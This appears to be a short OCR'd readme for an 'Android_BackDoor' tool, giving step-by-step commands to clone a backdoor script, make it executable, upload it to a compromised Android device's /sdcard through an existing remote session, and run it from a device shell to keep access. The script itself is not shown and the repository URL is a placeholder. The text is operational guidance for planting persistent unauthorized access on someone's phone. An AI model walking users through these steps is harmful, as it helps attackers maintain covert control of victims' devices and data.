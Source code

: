 #Author : Utkarsh Singh

#Copyright (C) 2020

#Android_BackDoor

Configuration :-

git clone <pasteurl>
  
chmod +x Back_door.sh

#After that you need to get into root directory of android device by typing “cd /” in terminal.

#Now you need to get into /sdcard location by typing “cd /sdcard” in same terminal.

#Here you can upload your backdoored script by typing “upload Back_door.sh” in same terminal.

#Now all we have to do is execute the script once, and then everything will be done automatically, type “shell” to enter into system’s shell mode of android device.

#Here you need to again go into same location i.e. cd /root/sdcard and execute the backdoor using “sh Back_door.sh“.

#your script has been executed successfully, you can terminate the execution by pressing CTRL + C and then type Y.

done!
